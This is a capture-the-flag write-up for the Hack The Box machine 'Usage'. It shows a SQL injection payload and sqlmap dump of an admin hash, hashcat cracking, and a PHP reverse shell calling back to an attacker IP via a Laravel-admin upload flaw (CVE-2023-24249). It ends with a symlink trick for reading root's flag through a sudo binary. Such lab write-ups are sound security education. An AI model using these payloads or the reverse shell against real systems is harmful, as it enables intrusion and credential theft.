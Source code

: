 ```yaml
---
author: Supaaasuge
title: Usage - HTB Writeup
date: 2024-05-06
Lastmod: 2024-05-06
description: "Writeup for the Hack The Box room Usage."
categories:
  - Hack The Box
tags:
  - SQLi
  - CVE-2023-24249
---
```

# Usage - HTB Writeup

IP = `10.10.11.18`

### Enumeration
```bash
sudo nmap -p22,80 -sCV -A -Pn $IP
[SNIP] ... 

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 a0:f8:fd:d3:04:b8:07:a0:63:dd:37:df:d7:ee:ca:78 (ECDSA)
|_  256 bd:22:f5:28:77:27:fb:65:ba:f6:fd:2f:10:c7:82:8f (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Daily Blogs
|_http-server-header: nginx/1.18.0 (Ubuntu)
... [SNIP]

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   37.18 ms 10.10.14.1
2   37.24 ms usage.htb (10.10.11.18)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.59 seconds
```
Domain found `usage.htb`. 

After trying some random stuff and running `gobuster` directory brute forcing, I didn't find anything useful. However after making an account and heading to `/forgot-password` I found an SQLi in the `email` input. Ex:
`email=a@a.com' AND 1=1;-- -`
```bash
cat reqq.txt 
POST /forget-password HTTP/1.1
Host: usage.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 84
Origin: http://usage.htb
Connection: close
Referer: http://usage.htb/forget-password
Cookie: XSRF-TOKEN=eyJpdiI6Ii82RmVtOXhNc05Gcm92c0xmY3J4Wmc9PSIsInZhbHVlIjoiSjlidzhvVDBXMEF6ajhvUGg2cVRwQ2pJRXB1SDViZnFJWGIzQU1KbUlvOGU2UWxEVVFBWEtqVGpDT2xidW5iNTBZYjJsS2pzT000amNHcjB2dldEQzB1RnQ3VWtJOHZJV1QvSGNaVTlGTGx1L0xUS1JCZWI3eVJmZXBlNnl6aGoiLCJtYWMiOiJiZDBjNTA5MTY5YmI5OGRlYzYwOTdmYTkwZTg2OTQ1NmQ1MDM0ZDRiMmU3YWYxNDMzMTE1MDg5NWQxYTM4MWFkIiwidGFnIjoiIn0%3D; laravel_session=eyJpdiI6Im1IK0xjL2p5T0hHOGx5NWVDV2wxeUE9PSIsInZhbHVlIjoiQTBKNDJWOU9uNHljdlVGMldJemYrWS8rOXAycXB0TStnSG1zU2paZDU2Qy9tY21YZ1kyZzhkWHFSUlRGTHU3Y3RuNWFaejFGU3FjdlFjRjdXaEpKeVFCSjliUERvcXVqbERQOVV3cjZGNkFGNVp2Q2IvWTdsQ0M2Z1RYTnd2MVAiLCJtYWMiOiJhOWE4YWYyZGE5NDhiYTc5NGY0MTUwYThjYzE0ODE5NGYxOGQyNzU2YzkyZmVkODA3ZDNhZTcyMTAzYzE0MjMxIiwidGFnIjoiIn0%3D
Upgrade-Insecure-Requests: 1

_token=BDou88iee4DWi2UbrIeFOOqp5zIUYNj0VOia0XA6&email=+a%40a.com

```
After capturing this request using burpsuite and running it through `sqlmap` I didn't find a ton of useful information the first few times however after turning up the risk/level paramter's and adding some other's I was able to find the database table `usage_blog` that could be targeted more specifically.

```bash
sqlmap -r reqq.txt -p email --batch --level 5 --risk 3 --dbms=mysql --dbs --dump --tables --threads 5

[13:08:07] [INFO] parsing HTTP request from 'reqq.txt'
[13:08:07] [INFO] testing connection to the target URL
got a 302 redirect to 'http://usage.htb/forget-password'. Do you want to follow? [Y/n] Y
[SNIP] ...

[13:13:39] [INFO] checking if the injection point on POST parameter 'email' is a false positive
POST parameter 'email' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 722 HTTP(s) requests:
---
Parameter: email (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause (subquery - comment)
    Payload: _token=BDou88iee4DWi2UbrIeFOOqp5zIUYNj0VOia0XA6&email= a@a.com' AND 1005=(SELECT (CASE WHEN (1005=1005) THEN 1005 ELSE (SELECT 3960 UNION SELECT 3913) END))-- -

    Type: time-based blind
    Title: MySQL > 5.0.12 AND time-based blind (heavy query)
    Payload: _token=BDou88iee4DWi2UbrIeFOOqp5zIUYNj0VOia0XA6&email= a@a.com' AND 9393=(SELECT COUNT(*) FROM INFORMATION_SCHEMA.COLUMNS A, INFORMATION_SCHEMA.COLUMNS B, INFORMATION_SCHEMA.COLUMNS C WHERE 0 XOR 1)-- cnFS
---
[13:13:47] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Nginx 1.18.0
back-end DBMS: MySQL > 5.0.12
[13:13:48] [INFO] fetching database names
[13:13:48] [INFO] fetching number of databases
[13:13:48] [INFO] retrieved: 3
[13:13:50] [INFO] retrieving the length of query output
[13:13:50] [INFO] retrieved: 18
[13:14:19] [INFO] retrieved: information_schema             
[13:14:19] [INFO] retrieving the length of query output
[13:14:19] [INFO] retrieved: 18
[13:14:47] [INFO] retrieved: performance_schema             
[13:14:47] [INFO] retrieving the length of query output
[13:14:47] [INFO] retrieved: 10
[13:15:07] [INFO] retrieved: usage_blog             
available databases [3]:
[*] information_schema
[*] performance_schema
[*] usage_blog
```
`information_schema` - Standardized set of read-only views that provide information about all the SQL Server objects (databases, tables, columns, etc.). 
`performance_chema` - Provides a way to inspect internal execution of the server at runtime. It includes a number of tables that can be queried to assess the performance of various operations to diagnose problems.
`usage_blog` - Blog database
![title](/posts/usage.png)
{{< figure src="./usage.png" title="usage" alt="alt text string" width="auto" >}}

As you can see we successfully got the hash for the `Administrator` from the db/table: `usage_blog.admin_users`.

After copying the hash and echoing it to a file, then running `hashid -m <file>` on it... It output's the mode as:
```bash
hashid -m hash                                            
--File 'hash'--
Analyzing '$2y$10$ohq2kLpBH/ri.P5wR0P3UOmc24Ydvl9DA9H1S6ooOMgH5xVfUPrL2'
[+] Blowfish(OpenBSD) [Hashcat Mode: 3200]
[+] Woltlab Burning Board 4.x 
[+] bcrypt [Hashcat Mode: 3200]
--End of file 'hash'-- 
```

Then running hashcat:
```bash
hashcat -m 3200 -a 0 hash /usr/share/wordlists/rockyou.txt
```

Credentials found: `administrator:whatever1`

The credentials didn't work on the original login page so I then though of running gobuster dns enumeration using the wordlist `/usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-20000.txt`. 

```bash
gobuster dns -d 'usage.htb'  -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-20000.txt   
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Domain:     usage.htb
[+] Threads:    10
[+] Timeout:    1s
[+] Wordlist:   /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-20000.txt
===============================================================
Starting gobuster in DNS enumeration mode
===============================================================
Found: admin.usage.htb
---
[SNIP]
```

Here... the credentials worked just fine... `admin:whatever1`

### Foothold
- [CVE-2023-24249](https://flyd.uk/post/cve-2023-24249/) - RCE in larravel-admin that allows attackers to bypass file upload restrictions, and attackers can upload files in `*.php` format for code execution.

Using a tool I wrote, I then created a php reverse shell file using the `PentestMonkey` PHP reverse shell script.
```bash
genrevshell php -f shell.php -i 10.10.14.40 -p 4444 
---
[+] shell.php generated successfully using the PHP Reverse shell script!
```

After logging in, we can see it is a laravel-admin dashboard for managing services etc. getting a peek at what the site is running, we can see it is running `Laravel` version `10.18.0`. 

After a bit of research I found the CVE mentioned above and gave it a shot.

The CVE here basically is when changing the `.jpg` favicon image for the profile photo, you can intercept the request and change the file extension to `.php` which the server will then execute.

So, using `shell.php` from earlier that I generated; i simply made a copy of the reverse shell as `shell.jpg` and gave it a shot...

**Getting root.txt**
```bash
11  cd /var/www/html
   12  ls
   13  cat root.txt
   14  file root.txt
   15  strings ~/root/root.txt
   16  uname -a
   17  n
   18  uname -m
   19  cat /proc/version
   20  touch '@root.txt'
   21  ln -s -r /root/root.txt root.txt
   22  rm -f root.txt
   23  ln -s -r /root/root.txt root.txt
   24  sudo /usr/bin/usage_management
   
```

Above is a paste of the command history to get the root flag.

